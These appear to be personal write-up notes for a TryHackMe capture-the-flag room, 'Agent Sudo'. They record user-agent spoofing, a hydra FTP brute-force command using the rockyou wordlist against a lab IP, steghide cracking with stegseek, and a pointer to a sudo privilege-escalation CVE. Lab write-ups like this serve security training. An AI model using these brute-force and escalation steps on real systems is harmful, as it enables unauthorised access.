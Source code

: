#steghide #hydra #ftp 

https://tryhackme.com/r/room/agentsudoctf

---
#### Nmap
![[Screenshot_2024-05-15_18-34-47.png]]
I juste enumerated `/icons/small` as forbidden directories for now
The first message
```markdown
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```

With the user-agent C on `/agent_C_attention.php`
```markdown
Attention chris,  
  
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!  
  
From,  
Agent R
```

There are some agents:
R
Chris
James

Maybe I can brute force the ftp now:
```shell
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.192.72 ftp
```

![[Screenshot_2024-05-15_19-15-54.png]]

Ok I download one `.txt` and 2 images from the ftp:
```markdown
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

So I downloaded a new `steghide` cracker called [stegseek](https://github.com/RickdeJager/stegseek) to replace the old `stegcracker`:
```shell
stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
```
And the new message is:
```markdown
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Here is `James`, a new name with a password `hackerrules!`

I used the [CVE-2019-14287](https://www.exploit-db.com/exploits/47502) exploit to easily privesc to root

